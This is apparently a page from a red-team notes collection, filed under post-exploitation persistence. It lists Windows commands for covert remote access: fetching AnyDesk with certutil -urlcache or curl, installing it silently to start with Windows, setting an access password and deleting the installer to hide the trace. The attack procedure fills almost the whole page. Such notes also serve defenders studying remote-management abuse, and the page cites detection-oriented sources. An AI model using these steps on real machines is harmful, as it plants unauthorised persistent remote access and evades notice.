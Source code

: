 # Living off the Land

## 01 - Download AnyDesk Installer

```
C:\> certutil.exe -urlcache -split -f https://download.anydesk.com/AnyDesk.exe %LOCALAPPDATA%\Temp\Anydesk.exe

C:\> curl.exe -o %LOCALAPPDATA%\Temp\Anydesk.exe https://download.anydesk.com/AnyDesk.exe
```

## 02 - Install AnyDesk

```
C:\> %LOCALAPPDATA%\Temp\Anydesk.exe --start-with-win --slient --install %LOCALAPPDATA%\AnyDesk
```

## 03 - Set Password

```
C:\> echo <password> | %LOCALAPPDATA%\AnyDesk\AnyDesk.exe --set-password
```

## 04 - Delete Anydesk

```
C:\> del %LOCALAPPDATA%\Temp\anydesk.exe
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/Windows/Host Persistence/Remote Login/Third Party/Remote Monitoring and Management/AnyDesk/Malware Development/Scripting]]

### LOLRMM

- [LOLRMM: AnyDesk](https://lolrmm.io/tools/anydesk)

### Huntress

- [Huntress: RATs! Remote Management Software from the Hacker’s Perspective](https://www.huntress.com/blog/rats-remote-management-software-from-the-hackers-perspective)